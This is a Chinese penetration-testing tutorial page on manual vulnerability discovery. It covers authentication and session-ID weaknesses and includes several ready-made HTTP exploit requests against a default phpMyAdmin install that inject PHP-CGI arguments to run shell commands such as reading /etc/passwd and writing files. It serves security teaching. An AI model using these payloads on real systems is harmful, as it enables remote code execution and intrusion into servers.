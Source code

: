 

# 手动漏洞挖掘

* [php反弹shell](./[8-10]--手动漏洞挖掘-php反弹shell.md)
* [命令执行漏洞](./[8-11]--手动漏洞挖掘-命令执行漏洞.md)
* [目录遍历、文件包含漏洞](./[8-12]--手动漏洞挖掘-目录遍历、文件包含漏洞.md)
* [文件上传漏洞](./[8-13]--手动漏洞挖掘-文件上传漏洞.md)
* [SQL注入漏洞](./[8-14]--手动漏洞挖掘-SQL注入漏洞.md)
* [XSS漏洞](./[8-15]--手动漏洞挖掘-XSS漏洞.md)
* [Xsser](./[8-16]--手动漏洞挖掘-Xsser.md)
* [Beef](./[8-17]--手动漏洞挖掘-Beef.md)
* [CSRF漏洞](./[8-18]--手动漏洞挖掘-CSRF漏洞.md)


---
* 手动漏洞挖掘的原则
* 漏洞的本质
* 身份认证漏洞
* 默认安装漏洞


## 手动漏洞挖掘的原则
1. 所有变量
1. 所有头
1. Cookie的变量
1. 逐个变量删除


## 漏洞的本质
1. 数据与指令的混淆
1. 对用户输入信息过滤不严判断失误，误将指令当数据

## 身份认证漏洞
* 针对身份认证
1. 使用常用弱口令/基于字典的密码暴力破解
1. 测试是否锁定账号
1. 测试基于手机号的用户名破解，可以在站内论坛收集用户信息
1. 查看错误秘密提升信息，可以判断用户名或者密码错误
1. 密码嗅探工具可以直接获取密码

* 会话 SessionID
1. Xss / cookie importer
1. SessionID in URL
1. 使用嗅探工具.
1. 测试 SessionID 是否是长期不变的
1. 破译 SessionID 生成算法
    1. Sequencer
    1. 私有算法
    1. 预判下一次登录时生成的 SessionID
    1. 登出后返回测试

* 密码找回时的漏洞
1. 在 URL 中存在密码的散列值，可以直接进行密码设置


## 默认安装漏洞
* phpMyAdmin/setup
1. Burpsuite 测试命令
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10

 <?php
 passthru('id');
 die(); #dir()终止后续的显示
 ?>
```


2. 查看权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 64
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 die();
 ?>
```
3. 查看可以使用的命令
``` 
 POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 passthru('ls');
 passthru('reboot');	#非管理员权限无法重启
 die();
 ?>
```

4. 测试写入权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('echo "123456789" > a.txt');
 passthru('cat a.txt');
 passthru('ls');
 die();
 ?>
```

